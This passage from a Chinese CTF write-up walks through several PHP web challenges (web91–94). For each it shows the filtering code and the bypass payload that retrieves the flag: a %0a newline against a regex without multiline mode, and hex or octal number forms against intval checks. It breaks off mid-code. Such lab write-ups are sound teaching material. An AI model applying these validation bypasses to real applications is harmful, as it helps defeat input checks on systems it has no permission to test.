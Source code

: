 ```php
    echo 'nonononono';
}
```
注意观察第六和第七行的区别，在第一个判断中匹配多了一个/m，意味着多行匹配，第二个判断则没有，那么我们可以用换行符进行绕过，即满足第一个判断同时不满足第二个判断，换行符是%0a
payload：/?cmd=%0aphp
## web92（进制绕过）
```php
<?php

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```
要求num值不为数字4476，同时十进制值为4476，同样也可以用16进制等绕过
payload：/?num=0x117c
## web93（进制绕过）
```php
<?php

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```
与上一题大同小异，不过过滤了num中的字母，这样2进制和16进制都不能用，只能使用8进制
payload：/?num=010574
## web94（%0a绕过）
```php
<?php

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
```